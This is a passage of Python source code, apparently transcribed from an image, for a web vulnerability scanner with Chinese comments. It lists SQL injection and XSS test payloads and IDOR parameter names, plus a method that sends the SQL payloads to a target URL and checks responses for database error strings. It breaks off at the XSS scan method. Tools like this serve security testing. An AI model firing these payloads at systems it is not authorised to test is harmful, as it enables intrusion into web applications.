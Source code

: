 ```python
    def __init__(self, timeout=10, max_workers=20):
        self.timeout = timeout
        self.max_workers = max_workers
        self.vulnerabilities = []
        
        # SQL注入測试負載
        self.sqli_payloads = [
            "'", "\"", "' OR '1'='1", "' OR '1'='1'--", 
            "' OR '1'='1'/*", "\" OR \"1\"=\"1", 
            "' UNION SELECT 1--", "'; WAITFOR DELAY '00:00:05'--"
        ]
        
        # XSS測試負載
        self.xss_payloads = [
            "<script>alert('XSS')</script>",
            "<img src=\"x\" onerror=\"alert('XSS')\">",
            "<svg onload=\"alert('XSS')\">",
            "javascript:alert('XSS')",
            "'\"><script>alert('XSS')</script>",
            "<iframe src=\"javascript:alert('XSS')\"></iframe>"
        ]
        
        # IDOR測試範圍
        self.idor_params = ['id', 'user', 'userid', 'account', 'doc', 'file']
    
    def scan_sql_injection(self, url, params):
        """SQL注入掃描"""
        for param_name, param_value in params.items():
            for payload in self.sqli_payloads:
                test_params = params.copy()
                test_params[param_name] = payload
                
                try:
                    response = requests.get(url, params=test_params, timeout=self.timeout)
                    
                    # 檢查SQL錯誤訊息
                    sql_errors = [
                        'mysql_fetch_array', 'ORA-01756', 'Microsoft OLE DB Provider',
                        'PostgreSQL query failed', 'SQLServer JDBC Driver',
                        'sqlite3_prepare_v2', 'mysql_num_rows',
                        'You have an error in your SQL syntax'
                    ]
                    
                    for error in sql_errors:
                        if error.lower() in response.text.lower():
                            vuln = Vulnerability(
                                type="SQL Injection",
                                url=url,
                                parameter=param_name,
                                payload=payload,
                                evidence=error,
                                severity="High"
                            )
                            self.vulnerabilities.append(vuln)
                            print(f"[!] SQL注入漏洞發現: {url}?{param_name}={payload}")
                            break
                            
                except requests.RequestException:
                    pass
    
    def scan_xss(self, url, params):
        """XSS掃描"""
        for param_name, param_value in params.items():
```